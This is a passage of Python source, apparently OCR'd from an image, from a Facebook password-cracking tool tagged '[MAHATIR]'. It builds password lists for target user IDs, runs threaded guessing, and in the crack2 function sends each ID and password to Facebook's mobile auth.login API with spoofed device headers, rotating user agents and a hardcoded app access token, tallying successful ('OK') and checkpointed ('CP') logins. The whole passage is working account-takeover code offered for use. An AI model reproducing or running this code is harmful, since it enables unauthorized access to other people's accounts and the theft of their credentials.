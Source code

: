 			else:

				if len(frs)<3:

					pwv.append(nmf)

				else:

					pwv.append(nmf)

			if 'api' in method:

				pool.submit(crack2,idf,pwv)

			else:

				pool.submit(crack2,idf,pwv)

	print('')

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	exitss = input(x+'\33[1;96m Want to Exit (y/t) : ')

	if exitss in ['y','Y']:

		exit()

	else:

		exit()

def crack2(idf,pwv):

	global loop,ok,cp

	bi = random.choice([u,k,kk,b,h,hh])

	pers = loop*100/len(id2)

	fff = '%'

	print('\r%s [MAHATIR] %s/%s  OK*%s | CP*%s => %s%s%s'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x), end=' ');sys.stdout.flush()

	ua = random.choice(ugen).replace('\n','')

	ses = requests.Session()

	for pw in pwv:

		try:

			head = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}

			resp = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(idf)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=head)
